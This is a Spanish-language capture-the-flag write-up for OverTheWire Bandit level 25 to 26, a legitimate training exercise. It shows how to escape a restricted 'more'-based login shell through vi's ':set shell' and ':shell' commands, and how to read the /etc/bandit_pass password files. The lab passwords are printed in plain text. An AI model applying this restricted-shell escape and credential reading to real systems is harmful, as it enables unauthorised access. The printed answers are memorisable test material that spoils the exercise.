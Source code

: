 ## Bandit  Level 25 -> 26

---
## Objetivo
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not **/bin/bash**, but something else. Find out what it is, how it works and how to break out of it.

---
## Datos de acceso
- user -> **bandit25**
- Passwor -> p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
- host ->  **bandit.labs.overthewire.org**
- port -> **2220**


---
## Solución
```shell
bandit25@bandit:~$ ls
bandit26.sshkey
bandit25@bandit:~$ ssh bandit26@localhost -i bandit26.sshkey
Connection to bandit.labs.overthewire.org closed.


bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
bandit25@bandit:~$ cat /home/bandit26:/usr/bin/showtext
cat: '/home/bandit26:/usr/bin/showtext': No such file or directory
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
bandit25@bandit:~$ 

se preciona v

:set shell=/bin/bash
:shell
bandit26@bandit:~$ ls
bandit27-do  text.txt
bandit26@bandit:~$ 
bandit26@bandit:~$ cat /etc/bandit_pass/bandit26 
c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
bandit26@bandit:~$ 
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS
bandit26@bandit:~$ 



```

---
## Notas adicionales
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0

Si tienes una ventana más grande que el texto que te muestra, en este caso “bandit26” en asciiart, more se ejecutará y cerrará, cerrando la sesión.


-Se puden jecutar comandos desde vi
:set shell=/bin/bash -> cambiar el shell
:shell -> entrar al shell


---
## Referencias
https://marmeus.com/post/Bandit#level-25